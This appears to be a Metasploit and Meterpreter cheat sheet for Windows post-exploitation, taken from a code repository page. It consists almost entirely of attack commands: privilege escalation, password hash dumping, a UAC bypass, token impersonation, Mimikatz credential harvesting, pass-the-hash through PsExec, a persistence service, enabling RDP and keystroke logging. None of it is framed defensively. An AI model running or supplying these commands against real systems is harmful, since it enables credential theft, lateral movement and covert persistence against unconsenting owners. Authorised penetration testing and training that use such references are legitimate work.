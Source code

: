 
### Windows Post Exploitation

#### Modules

```
meterpreter > getsystem
meterpreter > hashdump
msf6 > use post/windows/gather/enum_logged_on_users
msf6 > use post/windows/gather/win_privs
```

#### UAC Bypass

```
msf6 > use exploit/windows/local/bypassuac_injection
```

#### Token Impersonation

```
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "Name"
```

#### Mimikatz

```
meterpreter > load kiwi
meterpreter > creds_all
```

#### Pass-the-Hash with PsExec

```
msf6 > use exploit/windows/smb/psexec
set SMBUser <user>
set SMBPass <NTLM hash>
```

#### Persistence

```
msf6 > use exploit/windows/local/persistence_service
```

#### Enable RDP

```
msf6 > use post/windows/manage/enable_rdp
```

#### Keylogging

```
meterpreter > keyscan_start
meterpreter > keyscan_dump
```
